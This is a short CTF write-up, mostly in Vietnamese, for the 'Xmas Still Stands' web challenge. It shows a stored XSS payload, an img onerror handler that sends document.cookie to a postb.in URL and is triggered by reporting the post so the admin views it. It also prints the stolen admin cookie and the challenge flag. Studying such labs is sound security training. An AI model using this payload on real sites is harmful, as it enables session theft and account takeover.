 ## Xmas Still Stands
  You remember when I said I dropped clam's tables? Well that was on Xmas day. And because I ruined his Xmas, he created the Anti Xmas Warriors to try to ruin everybody's Xmas. Despite his best efforts, Xmas Still Stands. But, he did manage to get a flag and put it on his site. Can you get it?

- Bài này khi nhìn vào ta thấy có trang admin, và có khung post content 
  <img src="./1.png">
  thì ta nghĩ ngay đến việc đánh cắp cookie của admin để giả dạng admin ra flag. Ta nghĩ tới XSS, đoạn mã độc ta sẽ chèn vô
  <img src="#" onerror='location.href="https://postb.in/1584878144470-5629896027967?hello="+document.cookie' />
  https://postb.in/1584878144470-5629896027967?hello= cookie sẽ gửi đến địa chỉ này
  Sau đó chúng ta report post vừa nãy, vì chỉ có admin mới xóa được nó, nên khi xóa post này nó sẽ chạy mã độc chúng ta chèn vào và gửi cookie của nạn nhân (admin) đến địa chỉ ta chèn khi nãy

  <img src="./2.png">

  Và ta biết được cookie của admin:
  super_secret_admin_cookie=hello_yes_i_am_admin; admin_name=Jonah

  <img src="./3.png">

- Ok, vậy giờ giả danh admin thôi
  <img src="./4.png">

- Flag: actf{s4n1tize_y0ur_html_4nd_y0ur_h4nds}
  <img src="./5.png">
